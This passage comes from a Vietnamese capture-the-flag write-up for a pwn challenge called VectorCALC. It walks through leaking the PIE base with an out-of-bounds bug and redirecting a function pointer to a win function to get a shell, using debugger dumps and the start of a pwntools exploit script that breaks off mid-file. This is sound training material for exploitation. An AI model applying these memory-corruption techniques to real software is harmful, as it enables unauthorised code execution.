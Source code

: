 -> Trên *faves[2] đã chứa các địa chỉ mà ta cần
```
0:0000│  0x5555555592a0 —▸ 0x55555555535d (printData) ◂— endbr64 
01:0008│  0x5555555592a8 —▸ 0x555555558070 (v_list+48) ◂— 0x37ab6fbbc
02:0010│  0x5555555592b0 ◂— 0x0
```

-> Từ đó, khi ta dùng hàm `printFavorite()` thì thứ chúng ta có được đó là địa chỉ của mảng `v_list` và địa chỉ của hàm `print` là ta sẽ có được địa chỉ của PIE

```
Index: 2
Data: 
v = [93824992236381 93824992247920]
```
-> Thành công leak được PIE base 

Bây giờ, ta đã có PIE base, điều cần làm là làm sao điều khiển được RIP trỏ vào hàm `w1n()` 

Options 3 sẽ trả lời câu hỏi của ta:

`((struct Vector *)sum)->printFunc(sum);`

Chúng ta có thể điều khiển biến `sum` trỏ vào bất cứ đâu nhờ vào bug OOB ở trên

Vậy thì chúng ta sẽ viết hàm `w1n()` vào 1 index nào đó trên `v_list()` rồi ghi đè sum trỏ vào trước đó 16 bytes thì chúng ta đã có thể có được shell !!!!!

```c
00:0000│  0x558c60655040 (v_list) —▸ 0x558c606529d2 (w1n) ◂— endbr64 
01:0008│  0x558c60655048 (v_list+8) —▸ 0x558c606529d2 (w1n) ◂— endbr64 
02:0010│  0x558c60655050 (v_list+16) —▸ 0x558c6065235d (printData) ◂— endbr64 
```
Lúc này ghi đè sum bằng v_list[3] thành `v_list-16` sau đó trigger để gọi hàm w1n 

```
0x558c6065298c <main+173>    call   rdx                           <w1n>
        rdi: 0x558c60655030 (stdin@GLIBC_2.2.5) —▸ 0x7fdff7ff6aa0 (_IO_2_1_stdin_) ◂— 0xfbad208b
        rsi: 0x3
        rdx: 0x558c606529d2 (w1n) ◂— endbr64 
        rcx: 0x0
```


Vậy là trên Local mình đã exploit thành công, mình tiến hành gửi lên server thông qua script sau: 
Vector Exploit:
[xpl.py](https://github.com/w1n-gl0ry/CTF/blob/main/2023/miniCTF/pwn/VectorCALC/xpl.py)
```py
from pwn import *

#context.log_level='debug'
io=process('./chall')
#io=remote('45.122.249.68', 20017)
elf=context.binary=ELF('./chall')
#gdb.attach(io)

def enter(idx, x, y):
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b'Index: ', idx)
    io.sendlineafter(b'Enter x: ', x)
    io.sendlineafter(b'Enter y: ', y)
    
def sumVector(idx):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b'Save the sum to index: ', idx)
    
def printsum():
    io.sendlineafter(b'> ', b'3')
    
def loadfav(idx):
```